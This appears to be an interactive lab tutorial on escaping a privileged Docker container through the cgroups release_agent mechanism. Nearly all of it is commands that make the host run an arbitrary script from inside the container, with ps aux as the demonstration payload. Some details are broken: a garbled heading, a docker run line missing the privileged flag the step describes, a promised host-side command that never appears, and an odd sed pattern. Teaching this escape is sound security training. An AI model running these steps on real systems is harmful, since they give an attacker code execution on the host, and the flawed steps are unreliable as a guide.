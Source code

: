 ## Escaping via cgroups _agent

When inside of a container running in privileged mode (as determined in steps 1-2) we can escape using the release_agent feature of cgroups.

### Start a privileged container

First, start an interactive shell inside a privileged container.  The remainder of the commands in this step will run inside the container, except for the last one.

```
docker run -it ubuntu:18.04 bash
```{{execute}}

### Mount cgroups inside the container

Next, we mount the cgroups filesystem within the container so that we can manipulate it:

```
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp
```{{execute}}

### Create a cgroup with crafted release_agent

Now we create a cgroup with a release agent that can execute on the host an arbitrary command from the container's "/cmd" file:

```
mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent
```{{execute}}

### Specify the command

We could place any command inside this file.  We'll use ps as an example:

```
cat > /cmd <<EOF
#!/bin/sh
ps aux > $host_path/output 2>&1
EOF
chmod a+x /cmd
```{{execute}}

The output is sent to the container's "/output" file, so that we can see it from within the container:

```
cat /output
```{{execute}}

### Run a process in the cgroup to trigger the release_agent

The release_agent runs when all processes have exited from the cgroup.  This feature is intended to provide a hook to clean up the cgroups themselves after they are no longer used.

The following command puts the "sh" process's ID into the cgroup we've configured.  The "sh" process exits immediately after, as it has no more commands to run, which triggers the release_agent to run.

```
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```{{execute}}

Inspect the output:

```
cat /output
```{{execute}}
